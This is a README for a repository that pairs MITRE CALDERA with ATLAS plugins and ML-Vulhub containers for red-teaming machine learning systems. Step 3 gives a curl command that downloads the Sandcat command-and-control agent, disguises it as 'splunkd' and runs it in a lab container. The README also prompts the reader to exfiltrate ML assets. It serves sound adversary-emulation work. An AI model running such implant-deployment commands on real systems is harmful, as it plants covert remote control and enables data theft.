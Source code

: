 ## CALDERA + ATLAS

This repository brings together several projects to enable adversary emulation and red-teaming of machine learning (ML) systems. It configures the MITRE CALDERA&trade; docker image with MITRE ATLAS&trade; plugins and provides sample ML services and environments for testing.

[CALDERA](https://caldera.mitre.org/) is a cyber security platform designed to easily automate adversary emulation, assist manual red-teams, and automate incident response.

[MITRE ATLAS](https://atlas.mitre.org/) (The Adversarial Threat Landscape for AI Systems) is a knowledge base of adversary tactics, techniques, and procedures targeting ML systems.

Included ATLAS CALDERA Plugins:
- [Almanac](https://github.com/mitre-atlas/almanac): Adds the [ATLAS Navigator](https://mitre-atlas.github.io/atlas-navigator/) to CALDERA
- [Arsenal](https://github.com/mitre-atlas/arsenal): Implements ATLAS techniques as CALDERA Abilities and provides sample CALDERA Adversaries that target ML systems

[ML-Vulhub](https://github.com/mitre-atlas/ml-vulhub) is a collection of of scripts for intantiating ML-related services and modeling ML environments


### Basic Setup:

1. Build the CALDERA docker image:
```bash
docker-compose build
```

2. Run the CALDERA docker image with ATLAS plugins plugins (`almanac` and `arsenal`):
```bash
docker-compose up -d
```

3. Access the CALDERA interface at [localhost](https://localhost:8888).

The default username/password is `admin`/`admin`

4. Use CALDERA with the Almanac and Arsenal plugins.

If you aren't already familiar with CALDERA, start with the [CALDERA documentation](https://caldera.readthedocs.io/en/latest/Getting-started.html).

The Almanac and Arsenal plugins can be accessed under the Plugins heading on the left-hand navigation menu.

Arsenal populates CALDERA with new Abilities that implement ATLAS techniques. It also adds new Adversary Profiles that use ATLAS techniques target ML services and resources. More information is available in the [Arsenal documentation](https://github.com/mitre-atlas/arsenal).

5. Cleanup:
```bash
docker-compose down
```

### Example Usage with ML VulHub

[ML-Vulhub](https://github.com/mitre-atlas/ml-vulhub) is a companion project that provides sample ML-enabled services and environments.
This example models a compromised ML developer machine that has access to a private s3 bucket containing a model zoo and an internal ML model served with torchserve.

1. Startup CALDERA if it's not already running.
```bash
docker-compose up -d
```

2. Start a test environment from an example on ML VulHub.
```bash
cd ml-vulhub/envs/example-00-ml-dev

# perform build and initialization steps
docker-compose build
./init.sh

docker-compose up -d
```

3. Launch a Sandcat agent on the mldev container:
```bash
docker-compose exec mldev bash -c 'server=http://host.docker.internal:8888; curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download -o splunkd; chmod u+x splunkd; ./splunkd -server $server -group red -v'
```

4. Use the Abilities and Adversary Profiles provided by Arsenal to run an Operation targeting the ML services and resourcs in the sample environment.

What ML assets can you discover and exfiltrate? What ML services can you discover, target, and attack?

5. Cleanup:
Run `docker-compose down` from both the `caldera-atlas` and `ml-vulhub/envs/example-00-ml-dev` directories.
